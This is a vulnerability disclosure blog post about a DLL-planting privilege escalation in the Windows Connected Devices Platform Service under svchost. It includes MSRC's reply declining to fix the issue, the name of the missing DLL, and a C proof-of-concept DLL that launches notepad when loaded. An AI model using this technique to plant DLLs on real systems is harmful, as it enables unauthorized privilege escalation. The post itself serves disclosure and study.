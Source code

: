 ```yaml
---
layout: post
title:  "(MSRC Case 54347) Microsoft Windows Service Host (svchost) - Elevation of Privilege"
date:   2019-11-05 13:39:03 +0800
categories: [security, eop]
---
```


Description
-----------
svchost.exe (Service Host, or SvcHost) is a system process that can host from one to many Windows services in the Windows NT family of operating systems. Svchost is essential in the implementation of so-called shared service processes, where a number of services can share a process in order to reduce resource consumption (Wikipedia).

An elevation of privilege achievable via insecure library loading (PATH) on Windows Service Host Process (Svchost). Vulnerable version of CDPSvc.dll, 10.0.17763.771. Case was reported to MSRC on October 11, 2019. MSRC acknowledge and won't be fixing the issue as it did not meet their security bar. Here's the email update from MSRC:
```
Hi Nafiez,

From our investigation the issue only works if “C:\Perl64\bin” is in the PATH. These types of cases do not meet the bar because you need to be an admin to add locations to the PATH.

PATH DLL planting https://msrc-blog.microsoft.com/2018/04/04/triaging-a-dll-planting-vulnerability/

Based on that, no further action will be taken from MSRC and will proceed with closing out the case.

Regards,
```

Technical Analysis
------------------
Svchost load DLLs to run a service. In this case, we found out one of the services are prone to vulnerable with insecure library loading (PATH) that can elevate the privileges. The vulnerable service called “Connected Devices Platform Service (CDPSvc)”. In order to load the service, Svchost require to run a command:

```
C:\Windows\system32\svchost.exe -k LocalService -p -s CDPSvc
```

We can use Process Explorer to view the DLL path it tries to load:
![Screenshot broadcast](https://raw.githubusercontent.com/nafiez/nafiez.github.io/master/static/img/_posts/exp_1.png "Screenshot broadcast")

The DLL “CDPSvc.dll” found to load non-existent DLL from PATH directory which in this case is “C:\Perl64\bin”.
![Screenshot broadcast](https://raw.githubusercontent.com/nafiez/nafiez.github.io/master/static/img/_posts/exp_2.png "Screenshot broadcast")

To verify if the DLL gets loaded, we can see function **LoadLibrary** trying to load cdpsgshims.dll with IDA Pro to see if it is really called by CDPSvc.dll.
![Screenshot broadcast](https://raw.githubusercontent.com/nafiez/nafiez.github.io/master/static/img/_posts/exp_3.png "Screenshot broadcast")

From the disassembly above, we know that CDPSvc.dll is trying to load **cdpsgshims.dll** which is we really don’t see it on our testing environment (Windows 10 x64). We decided to craft a simple proof-of-concept and put the DLL in the writable folder **C:\Perl64\bin**. We noticed Python folder also affected.
```
#include "stdafx.h"
#include <Windows.h>

BOOL APIENTRY DllMain(HMODULE hModule,
	DWORD  ul_reason_for_call,
	LPVOID lpReserved
)
{
	switch (ul_reason_for_call)
	{
	case DLL_PROCESS_ATTACH:
		WinExec("notepad", 5);
		break;
	case DLL_THREAD_ATTACH:
	case DLL_THREAD_DETACH:
	case DLL_PROCESS_DETACH:
		break;
	}
	return TRUE;
}

extern "C" __declspec(dllexport) int InternetQueryOptionA() {
	WinExec("notepad", 5);
}
```

Successful exploitation will execute the notepad (our sample payload) and elevate the privilege to “NT AUTHORITY\LOCAL SERVICE”. We can observe the execution using ProcMon:
![Screenshot broadcast](https://raw.githubusercontent.com/nafiez/nafiez.github.io/master/static/img/_posts/exp_4.png "Screenshot broadcast")

Payload executed under svchost.exe with **NT AUTHORITY\LOCAL SERVICE** privilege
![Screenshot broadcast](https://raw.githubusercontent.com/nafiez/nafiez.github.io/master/static/img/_posts/exp_5.png "Screenshot broadcast")

**Disclosure timeline**
```
2019-10-11 - Reported to MSRC (via email)
2019-10-11 - Vendor acknowledge and will update accordingly.
2019-11-04 - Sent an email to vendor asking for update.
2019-11-05 - Vendor replied saying that this does not meet their security bar. No fix for this issue.
2019-11-05 - Writeup release.
```
